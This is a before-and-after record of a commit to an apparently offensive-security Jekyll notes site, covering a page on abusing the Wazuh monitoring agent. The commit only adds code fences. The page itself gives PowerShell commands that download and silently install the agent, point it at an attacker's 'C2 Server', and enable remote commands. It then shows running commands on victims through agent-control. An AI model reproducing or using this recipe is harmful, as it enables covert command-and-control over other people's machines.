

Before and after one commit to 0xAnalyst/Project-Lost, a Jekyll site: the page built from _tool/Wazuh.md, in a window 1280 px wide, cut to the strip 0-715 px from the top of the page. Shown: the whole strip, without its empty margins (158-1118 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
Update Wazuh.md

````diff
--- a/_tool/Wazuh.md
+++ b/_tool/Wazuh.md
@@ -11,12 +11,17 @@
 
 
 **C2 Connection**
-powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi;
+
+```powershell.exe Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.5.3-1.msi -OutFile ${env:tmp}\wazuh-agent-4.5.3-1.msi;
 msiexec.exe /i ${env:tmp}\wazuh-agent-4.5.3-1.msi /q WAZUH_MANAGER='C2 Server' WAZUH_REGISTRATION_SERVER='C2 Server' WAZUH_AGENT_GROUP='1';
 Start-Sleep -Seconds 20;
 Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'wazuh_command.remote_commands=1';
 Add-Content -Path 'C:\Program Files (x86)\ossec-agent\local_internal_options.conf' -Value 'logcollector.remote_commands=1';
 NET START WazuhSvc
+```
+
 **Execute Commmands**
+
 once the agents connected the agent-control binary allows you to execute commands
+
 ```/var/ossec/bin/agent-control -R 'whoami'```
````
